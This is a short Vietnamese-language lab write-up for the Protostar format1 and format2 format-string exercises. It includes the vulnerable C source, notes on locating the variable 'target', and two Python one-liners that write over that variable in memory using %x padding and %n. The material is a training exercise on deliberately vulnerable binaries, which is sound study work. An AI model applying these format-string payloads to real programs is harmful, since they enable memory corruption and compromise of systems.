



# Format one

Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

- Sử dụng objdump để tìm địa chỉ biến target


- Ta có thể dùng `"%x` để pop ra địa chỉ của word tiếp theo bên trong stack. Mục tiêu là xem địa chỉ bộ nhớ nơi mà biến `target` đang được lưu trữ:
- Không hiểu sao `%x.` được còn `%x ` thì không:



- Ta thấy dòng này bị lặp đi lặp lại liên tục. Đây là các biến mà ta đã nhập vào:

Để ý thấy bên cạnh nó còn có `41414141` nhưng được lưu theo kiểu little endian.

./format1 "`python -c  "print 'AAAA'+'\x38\x96\x04\x08'+'BBBBBBBBBBBBB'+'%x '*127 + '%n'"`"


 python -c "print 'AAAA' +'\xe4\x96\x04\x08'+ '%x'*4 +'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA'+ '%n'" | /opt/protostar/bin/format2


 
